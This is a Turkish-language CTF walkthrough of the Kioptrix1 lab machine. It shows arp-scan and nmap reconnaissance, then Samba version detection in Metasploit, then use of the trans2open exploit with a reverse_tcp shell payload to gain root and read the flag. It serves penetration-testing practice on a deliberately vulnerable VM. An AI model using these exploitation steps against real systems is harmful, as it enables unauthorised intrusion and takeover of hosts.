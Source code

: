```yaml
---
title: "[TR] Kioptrix1 - Walkthrough"
date: 2020-10-10 00:24:00 +03:00
tags:
- ctf
- walkthrough
- hacking
---
```


Merhaba arkadaşlar,bugün sizlere Kioptrix1 isimli zafiyetli makineyi ele geçirmeye çalışacağım.


**UYARI!** Kioptrix makinesinin .vmx uzantılı dosyasını not defteri gibi uygulama ile açıp "bridged" kelimesini aratın.Ardından iki tırnak içerisindeki "bridged" kelimesini "nat" ile değiştirin.Aynı zamanda kendi makineninizinde NAT seçeğini ile bağlandığından emin olun.


İlk olarak **ifconfig** komutu ile kendi makinemin IP adresini öğreniyorum.

![Kali LİNUX-2020-10-09-23-43-30-79621c.png](/uploads/Kali%20L%C4%B0NUX-2020-10-09-23-43-30-79621c.png)

Ardından sanal makinemde localhost üzerinden **arp-scan -l** taraması yapıyorum.

![Kali LİNUX-2020-10-09-23-02-50.png](/uploads/Kali%20L%C4%B0NUX-2020-10-09-23-02-50.png)

Evet,Kioptrix1 isimli hedef makinemizin IP Adresini **192.168.75.156** olarak öğrendim.

Şimdi sırada nmap taraması yapmakta.
**nmap -sS -sV  192.168.75.156** komutu ile nmap taramamı başlatıyorum.Bu taramada tcp syn scan isteği ve versiyon tespitini de istemiş oluyorum.

![Kali LİNUX-2020-10-09-23-04-53-8d7406.png](/uploads/Kali%20L%C4%B0NUX-2020-10-09-23-04-53-8d7406.png)

Nmap parametreleri isteği doğrultusunda açık olan portları görebiliyorum şuan.Fakat 139/tcp portunun versiyon tespitini alamadık.Bunu öğrenmek için Metasploit aracını kullanacağım.

Yeni bir komut satırı açıp **msfconsole** komutu ile Metasploit aracını açıyorum.

![Kali LİNUX-2020-10-09-23-07-46.png](/uploads/Kali%20L%C4%B0NUX-2020-10-09-23-07-46.png)

Versiyon tespitini öğrenmek için Auxiliary modülünü kullanacağım.
Komut satırına **show auxiliary** yazarak Auxiliary modülünün içeriğini görüntülüyorum.

![Kali LİNUX-2020-10-09-23-12-24.png](/uploads/Kali%20L%C4%B0NUX-2020-10-09-23-12-24.png)

Bu modül içeriğini baktığımda **scanner/smb/smb_version** modülünü görüyorum.Bunu kullanacağım. 

![Kali LİNUX-2020-10-09-23-13-50.png](/uploads/Kali%20L%C4%B0NUX-2020-10-09-23-13-50.png)

Şimdi sıra bu modülü kullanmakta.Komut satırına **use scanner/smb/smb_version** yazarak bunu yapıyorum.

![Kali LİNUX-2020-10-09-23-14-06-951382.png](/uploads/Kali%20L%C4%B0NUX-2020-10-09-23-14-06-951382.png)

Bu modülün ayarlamalarını yapacağım çünkü buna hedef makinenin IP adresini tanımlamam gerek.Komut satırına **show options** komutu yazarak ayarlamaları görüntülüyorum.

![Kali LİNUX-2020-10-09-23-14-19-64ce2e.png](/uploads/Kali%20L%C4%B0NUX-2020-10-09-23-14-19-64ce2e.png)

**set rhosts 192.168.75.156** komutu ile hedef makinenin IP adresini tanımladım.

![Kali LİNUX-2020-10-09-23-14-52.png](/uploads/Kali%20L%C4%B0NUX-2020-10-09-23-14-52.png)
![Kali LİNUX-2020-10-09-23-15-05.png](/uploads/Kali%20L%C4%B0NUX-2020-10-09-23-15-05.png)

Hedef makinemizin IP Adresini tanımladıktan sonra **run** komutu ile bu modülü çalıştıyorum.

![Kali LİNUX-2020-10-09-23-15-17.png](/uploads/Kali%20L%C4%B0NUX-2020-10-09-23-15-17.png)

EVET! Version tespitini yaptık **Samba 2.2.1a**

Şimdi bu versiyona uygun exploit bulmakta.Msfconsole içerisinde **search Samba 2.2** komutu ile arama yapıyorum.

![Kali LİNUX-2020-10-09-23-16-35.png](/uploads/Kali%20L%C4%B0NUX-2020-10-09-23-16-35.png)

Bize uygun exploit seçeneğini buldum gibi.Bu modülü kullanacağım.Bunun için **use exploit/linux/samba/trans2open** komutunu yazarak exploiti kullanacağım.Ama öncesinde exploiti çalıştırabilmek için hedef sistemin IP adresini atayacağım.

![Kali LİNUX-2020-10-09-23-17-45.png](/uploads/Kali%20L%C4%B0NUX-2020-10-09-23-17-45.png)
![Kali LİNUX-2020-10-09-23-18-00.png](/uploads/Kali%20L%C4%B0NUX-2020-10-09-23-18-00.png)

Ip adresini tanımladık gördüğünüz gibi.

![Kali LİNUX-2020-10-09-23-18-08.png](/uploads/Kali%20L%C4%B0NUX-2020-10-09-23-18-08.png)

Şimdi buradaki payload listesini görüntüleyelim.Komut olarak 
**show payloads** yazarak bunu yapıyorum.

![Kali LİNUX-2020-10-09-23-19-33.png](/uploads/Kali%20L%C4%B0NUX-2020-10-09-23-19-33.png)

İçeriğine bakarak bana uygun olan payload olan **linux//x86/shell/reverse_tcp** gibi bunu kullanarak hedef makine üzerinde Reverse Shell almayı deneyeceğim.

![Kali LİNUX-2020-10-09-23-21-17.png](/uploads/Kali%20L%C4%B0NUX-2020-10-09-23-21-17.png)

Ardından **run** diyerek çalıştırıp shell almaya çalışıyorum.

![Kali LİNUX-2020-10-10-00-45-20.png](/uploads/Kali%20L%C4%B0NUX-2020-10-10-00-45-20.png)

**Whoami** komutu ile root olduğumuzu gördük.

![Kali LİNUX-2020-10-10-00-52-03.png](/uploads/Kali%20L%C4%B0NUX-2020-10-10-00-52-03.png)

Şimdi var/mail/ dizini içerisinde root u okuyoruz ve başarıyla
flag tamamladık.Kioptrix1 isimli makinemizi başarıyla ele geçirdik.


![Kali LİNUX-2020-10-10-00-46-59-385f96.png](/uploads/Kali%20L%C4%B0NUX-2020-10-10-00-46-59-385f96.png)





